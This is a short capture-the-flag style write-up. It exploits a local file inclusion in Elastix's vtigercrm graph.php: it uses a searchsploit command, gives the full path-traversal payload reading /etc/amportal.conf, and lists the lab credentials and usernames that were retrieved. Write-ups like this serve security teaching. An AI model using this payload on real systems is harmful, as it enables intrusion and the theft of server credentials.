 ------

Since there is more exploit found with Elastix, that is were I started. I didn't found the Elastix version so I tried the first one LFI. 

Download the code like so :

```
searchsploit -m php/webapps/37637.pl
```

Read the exploit and found the exploit part which is :

```
#LFI Exploit: 
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Nothing difficult here, it's just a simple LFI, so let's try it in the browser !

![LFI Elastix](/assets/imgs/beep/lfi_elastix.png)

Bingo, it's working and we now have some credentials :

- amp109
- jEhdIekWmdjE
- amp111

And some users :

- asteriskuser
- admin
- asterisk
